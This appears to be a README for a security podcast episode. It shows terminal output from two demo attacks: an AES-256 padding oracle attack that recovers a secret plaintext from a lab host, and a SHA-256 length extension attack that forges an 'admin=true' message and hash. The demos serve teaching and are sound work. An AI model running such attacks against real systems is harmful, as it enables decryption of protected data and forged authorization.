

# TopCyberPro Podcast with Jim West

- [Podcast Recording](#)
- [Presentation Slides](Slides.pdf)

## AES-256 Padding Oracle Attack

```
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py 192.168.1.10 80
[+] Computing message length...
[+] Found message length of 13 bytes
[+] Brute-forcing message content...
[+] Brute-forcing position 13...
[+] Found byte: 0xbe
[+] Found char: e
[+] Brute-forcing position 12...
[+] Found byte: 0xe2
[+] Found char: g
[+] Brute-forcing position 11...
[+] Found byte: 0xca
[+] Found char: a
[+] Brute-forcing position 10...
[+] Found byte: 0x4f
[+] Found char: s
[+] Brute-forcing position 9...
[+] Found byte: 0x8e
[+] Found char: s
[+] Brute-forcing position 8...
[+] Found byte: 0xb7
[+] Found char: e
[+] Brute-forcing position 7...
[+] Found byte: 0xfd
[+] Found char: M
[+] Brute-forcing position 6...
[+] Found byte: 0xb8
[+] Found char: t
[+] Brute-forcing position 5...
[+] Found byte: 0xed
[+] Found char: e
[+] Brute-forcing position 4...
[+] Found byte: 0x80
[+] Found char: r
[+] Brute-forcing position 3...
[+] Found byte: 0x31
[+] Found char: c
[+] Brute-forcing position 2...
[+] Found byte: 0x77
[+] Found char: e
[+] Brute-forcing position 1...
[+] Found byte: 0xeb
[+] Found char: S
[+] Plaintext message compromised:
SecretMessage

```

## SHA-256 Length Extension Attack

```
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py
Known original message: user=attacker;action=view
Known original hash: a57b1764e6ec86543269fc59b855304ea17ba99ac65c9f9e1d8baa5b8c6c8318
Data to append: ;admin=true
----------------------------------------
Forged full message (hex): 757365723d61747461636b65723b616374696f6e3d7669657780000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001c83b61646d696e3d74727565
Forged new hash: aac2f7342461bba83105b79d8c7d4abdfbe5ea110375365bb8ab95cc1a2e18b0

```


